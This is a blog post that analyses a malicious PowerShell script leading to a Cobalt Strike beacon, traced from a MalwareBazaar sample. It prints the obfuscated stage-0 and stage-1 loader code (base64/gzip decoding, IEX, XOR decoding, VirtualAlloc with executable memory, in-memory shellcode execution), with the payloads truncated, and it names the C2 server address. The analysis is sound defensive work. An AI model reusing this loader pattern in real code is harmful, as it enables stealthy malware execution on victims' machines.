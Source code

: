 ```yaml
---
title: "Cobalt Strike Beacon Analysis"
categories:
  - Malware Analysis
---
```


Cobalt Strike, which was originally developed as a legitimate security tool used for adversary emulation by Red Teams, has become a double-edged sword in the realm of cybersecurity. Malicous actors have cracked the software, since then it's been abused by adversaries ranging from hacktivists to APTs to fufill their needs. This is article is an analysis of the PowerShell script that leads to execution of a Cobalt Strike beacon.  

## Discovery

I recently discovered this malicious PowerShell script from a [Twitter post by @xorJosh](https://twitter.com/xorJosh/status/1655905247334735878). In his tweet he described an Oracle related service was exploited to download and execute a PowerShell script.

[![1](/assets/images/CobaltStrikeBeaconAnalysis1/1.png)](/assets/images/CobaltStrikeBeaconAnalysis1/1.png){: .full}

The malware sample mentioned can be found on [MalwareBazaar](https://bazaar.abuse.ch/sample/9c9e8841d706406bc23d05589f77eec6f8df6d5e4076bc6a762fdb423bfe8c24/). Lets download this ourselves and have a look!

## Static Analysis (Stage 0)

```ruby
$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAA/+y9Wa/qSrIu+rzrV8yHLa21xNo1wBhjjrSla2wwxh09mDqlkjHgBtw3YM49//1GZBoGY865VtXW1rkPV3dKUwyMnU1kNF9ERqSXp+I/lkXmO4UeH0/f/mNzynI/jr4xf/nLuYycAv/GP/7hnop/JFns/MM+HrNTnn/7X3/5t
....QUA"));
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

The PS script starts by defining a variable `s` to Base64 decoded binary data. Once we get to the end of the `s` variable, we see the following:

```ruby
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

This Gzip decompresses the variable `s`, and inputs into the StreamReader object. The contents of the StreamReader object are then passed as input into the IEX function, Invoke-Expression, which executes a given PowerShell command or script. From this, we can take a guess that `s` is gzip compressed, PowerShell code? Let's recreate this process of Base64 decoding & Gzip decompressing in CyberChef.

[![2](/assets/images/CobaltStrikeBeaconAnalysis1/2.PNG)](/assets/images/CobaltStrikeBeaconAnalysis1/2.PNG){: .full}

We can see that indeed, this was more PowerShell code to be executed. Let's download this locally and analyze this script

## Static Analysis (Stage 1)

```ruby
Set-StrictMode -Version 2

function func_get_proc_address {
  Param ($var_module, $var_procedure)   
  $var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
  $var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
  return $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))
}

function func_get_delegate_type {
  Param (
    [Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
    [Parameter(Position = 1)] [Type] $var_return_type = [Void]
  )

  $var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
  $var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')
  $var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')

  return $var_type_builder.CreateType()
}

If ([IntPtr]::size -eq 8) {
  [Byte[]]$var_code = [System.Convert]::FromBase64String('bnlicXZrqsZros8DIyMja64+ydzc3Guq/Gui4GdHIiPc8GKb05aBdUsnIyMjeWuq2tzzIyMjIyMjIyMj2yMjIy08mS0jlyruApsib+4Cd0tKUANTUUxEUUJOA0BCTU1MVwNBRgNRVk0DSk0DZ2xwA05MR
  ...OP84/')

  for ($x = 0; $x -lt $var_code.Count; $x++) {
    $var_code[$x] = $var_code[$x] -bxor 35
  }

  $var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
  $var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
  [System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

  $var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
  $var_runme.Invoke([IntPtr]::Zero)
}

```

The first defined function, `func_get_proc_address()`, basically retrieves the memory address of a specified procedure/function from a specified DLL. We can see this is used here, `$var_var = ... func_get_proc_address kernel32.dll VirtualAlloc), (...`. 

VirtualAlloc is a function of the Win32 API used to allocate a certain region of memory, to the calling process. We can see on the next line the parameters of this function, `$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)` (We'll get onto this `$var_code` variable in a second). Referencing the [documentation](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) on the VirtualAlloc function reveals:

[![3](/assets/images/CobaltStrikeBeaconAnalysis1/3.png)](/assets/images/CobaltStrikeBeaconAnalysis1/3.png){: .full}

We can now match up the corresponding parameters to the Microsoft documentation, but the one I'm most interested in is `flProtect`, which is set to `0x40`. `flProtect` defines the permissions given to an set allocation of memory.

[![4](/assets/images/CobaltStrikeBeaconAnalysis1/4.png)](/assets/images/CobaltStrikeBeaconAnalysis1/4.png){: .full}

We can see `0x40` is equivalent to `PAGE_EXECUTE_READWRITE`, which indicates the allocated memory is more than likely going to be used to execute malicous code. Let's uncover said code.

```ruby
If ([IntPtr]::size -eq 8) {
  [Byte[]]$var_code = [System.Convert]::FromBase64String('bnlicXZrqsZros8DIyMja64+ydzc3Guq/Gui4GdHIiPc8GKb05aBdUsnIyMjeWuq2tzzIyMjIyMjIyMj2yMjIy08mS0jlyruApsib+4Cd0tKUANTUUxEUUJOA0BCTU1MVwNBRgNRVk0DSk0DZ2xwA05MR
  ...OP84/')

  for ($x = 0; $x -lt $var_code.Count; $x++) {
    $var_code[$x] = $var_code[$x] -bxor 35
  }
```

Going through this line by line, we first see a conditional statement, `If ([IntPtr]::size -eq 8) {...`. `[IntPtr]::size` is an integer that defines the architecture type. In a 32-bit system this is equal to `4` and in a 64-bit system this is equal to `8`. This first line checks if the program is of a 64-bit architecture, if so it'll continue executing, otherwise it'll finish without doing anything.

The next line, `[Byte[]]$var_code = [System.Convert]::FromBase64String('bn...4/')`, Base64 decodes a massive string, and then stores it as a byte array. The for loop that follows this, iterates over each element of this byte array, performing the following operation - `$var_code[$x] = $var_code[$x] -bxor 35`. This just bitwise XORs each element of the array with decimal 35. Interesting...

We can make a conclusion here that the string `bnli...P84/` is XOR encrypted & Base64 encoded. Let's recreate this in CyberChef.

[![5](/assets/images/CobaltStrikeBeaconAnalysis1/5.png)](/assets/images/CobaltStrikeBeaconAnalysis1/5.png){: .full}

We can see the recongizable PE DOS header `MZ` identifiying this file as an Windows Executable. Let's download this file locally and move onto Stage 2!

## Static Analysis (Stage 2)

For confirmation, I used the Linux `file` command to verify I'm dealing with an .exe file.

[![6](/assets/images/CobaltStrikeBeaconAnalysis1/6.PNG)](/assets/images/CobaltStrikeBeaconAnalysis1/6.PNG){: .full}

Let's run the `strings` command, to see if any we can recover anything interesting.

[![7](/assets/images/CobaltStrikeBeaconAnalysis1/7.PNG)](/assets/images/CobaltStrikeBeaconAnalysis1/7.PNG){: .full} 

Interesting, we see `beacon.x64.dll`, certaintly looks dodgy right? [Googling this](https://www.cobaltstrike.com/blog/cobalt-strike-and-yara-can-i-have-your-signature/) reveals this is a common string found in Cobalt Strike beacons. Know we now for sure this a Cobalt Strike beacon, let's try extract the configuration. 

To do this task, I took advanatge of [this](https://github.com/DidierStevens/DidierStevensSuite/blob/master/1768.py) great tool.

[![8](/assets/images/CobaltStrikeBeaconAnalysis1/8.PNG)](/assets/images/CobaltStrikeBeaconAnalysis1/8.PNG){: .full}

From this we can clearly see the IP address is of the C2 server is `81.70.197[.]244` over port `4433` with the HTTPS protocol. We can also see the HTTP C2 communications are sent to a URI of `/jquery-3.3.1.min.js`, in attempt to masquerade as a jsquery request.

Searching this IP on VirusTotal we can see it's been flagged from 2/88 security vendors. Further basic OSINT discovers it to be hosted by the cloud provider [Tencet Cloud Computing Company Limited](https://cloud.tencent.com/)

[![9](/assets/images/CobaltStrikeBeaconAnalysis1/9.png)](/assets/images/CobaltStrikeBeaconAnalysis1/9.png){: .full}